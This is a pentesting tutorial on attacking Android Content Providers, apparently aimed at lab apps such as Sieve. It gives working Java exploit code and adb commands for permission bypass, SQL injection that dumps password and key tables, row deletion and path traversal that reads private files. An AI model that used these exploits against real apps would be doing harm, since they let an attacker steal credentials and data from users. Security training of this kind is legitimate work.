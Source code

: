 # Content Provider Hacking

**Overview**

Content Providers manage access to a structured set of data in Android applications. They encapsulate data and provide mechanisms for defining data security. They can be targeted for various vulnerabilities such as SQL Injection and Path-Traversal attacks.

**Key Areas of Focus**

1. **Exported Content Providers**
2. **SQL Injection Vulnerabilities**
3. **Path-Traversal Vulnerabilities**

***

### 1. Exported Content Providers

**What to Look For:**

* **Exported Providers**: Check if the Content Provider is exported in the `AndroidManifest.xml` file. An exported provider can be accessed by other applications.
* **Permissions**: Examine if the Content Provider is protected by permissions. If the `protectionLevel` is not set to `signature`, it might be circumvented.

```xml
<provider
    android:name="com.example.provider"
    android:authorities="com.example.provider"
    android:exported="true"
    android:permission="com.example.provider.READ_WRITE" />
```

<figure><img src="../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

#### **Code Exploit**&#x20;

```java
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Passwords");
Cursor queryCursor = getContentResolver().query(uri,null,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

**AndroidManifest.xml** in all exploits should have those lines

```xml
<queries>
    <package android:name="com.apphacking.musicplayer"/>
</queries>
```

#### Case 1: Permission Bypass

Bypassing the custom user permission, because of the missing regex regarding to the PATH

Simply appending `/////` at the end of our content URI will bypass it.

**Code Exploit**

```java
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Keys/////");
Cursor queryCursor = getContentResolver().query(uri,null,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

### 2. SQL Injection Vulnerabilities

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**Steps to Identify:**

* **Check Query Methods**: Look at the `query` method to see if user inputs are properly sanitized.
* **Identify Tables**: Locate the tables used within the Content Provider by searching for `content://` URIs in the code.

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Example Code to Identify SQL Injection Points:**

```java
String selection = "SELECT * FROM users WHERE username = ?";
Cursor cursor = db.rawQuery(selection, new String[]{username});
```

Now we need to identify the tables in the Java code. We can look for the keyword “`content://`“.

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

#### **Case 1**

* We need to query the Passwords table to insert our own SQL statement
* SQL statement will be inserted via the projection
* SQL syntax is sth like: `SELECT * FROM Passwords WHERE ....`
* projection --> `SELECT '* FROM Key--;' (ignored .... FROM Passwords WHERE)`

**Exploit**

```java
Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Passwords");

String[] projection = new String[] {"* FROM KEY--;"};
Cursor queryCursor = getContentResolver().query(uri,projection,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

#### Case 2

* Granting the custom permissions of the sieve application to query the Key table.
* consider:
* Define them in the Manifest

```xml
<uses-permission android:label="@string/perm_descr" android:name="com.mwr.example.sieve.READ_KEYS" android:protectionLevel="dangerous"/>
<uses-permission android:label="@string/perm_descr" android:name="com.mwr.example.sieve.WRITE_KEYS" android:protectionLevel="dangerous"/>
```

* We need to ask for them during runtime.&#x20;

```java
String[] permission = new String[] {"com.mwr.example.sieve.READ_KEYS"};
ActivityCompat.requestPermissions(this, permission,9001);

Uri uri = Uri.parse("content://com.mwr.example.sieve.DBContentProvider/Keys");

String[] projection = new String[] {"*"};
Cursor queryCursor = getContentResolver().query(uri,projection,null,null,null);

textView.setText("cursor " + DatabaseUtils.dumpCursorToString(queryCursor));
```

**Example SQL Injection Attack:**

*   **Extract All Entries**:

    ```bash
    $ content query --uri content://com.example.provider/users --projection "* FROM users--"
    ```
*   **Inserting Data**:

    ```bash
    $ content insert --uri content://com.example.provider/users --bind name:s:admin
    ```
*   **Updating Data**:

    ```bash
    $ content update --uri content://com.example.provider/users --bind name:s:hacker --where "name='admin'"
    ```
*   **Deleting Data**:

    ```bash
    $ content delete --uri content://com.example.provider/users --where "name='admin'"
    ```

### 3. Path-Traversal Vulnerabilities

**Steps to Identify:**

* **Check Exported Providers**: Again, ensure the Content Provider is exported.
* **ParcelFileDescriptor**: Look for `ParcelFileDescriptor openFile` method and ensure the URI input is sanitized.

**Example Path-Traversal Attack:**

*   **Reading Arbitrary Files**:

    ```bash
    $ content read --uri content://com.example.provider/../../../../../../etc/hosts
    ```

#### Code Exploit

```java
public class MainActivity extends AppCompatActivity {

    InputStream inputStream;
    TextView textView;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        textView = (TextView) findViewById(R.id.textView);

        Uri uri = Uri.parse("content://com.apphacking.musicplayer/../../../../../../../data/data/com.apphacking.musicplayer/files/mySecretFile");

        try {
            inputStream = getContentResolver().openInputStream(uri);
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        }

        InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
        BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
        String fileInput = "";

        try {

            while (bufferedReader.ready()) {
                fileInput += bufferedReader.readLine();
                fileInput += "\n";
            }

        } catch (IOException e) {
                e.printStackTrace();
            }

        textView.setText("Accessing mySecretFile: \n" + fileInput);

    }
}
```

#### Summary

When pentesting Content Providers in Android applications, focus on:

* Ensuring Content Providers are not improperly exported.
* Checking for SQL Injection vulnerabilities by examining how inputs are handled in query methods.
* Identifying and exploiting Path-Traversal vulnerabilities by verifying how file URIs are processed.

By thoroughly investigating these areas, you can identify and exploit significant vulnerabilities in Android applications' Content Providers.
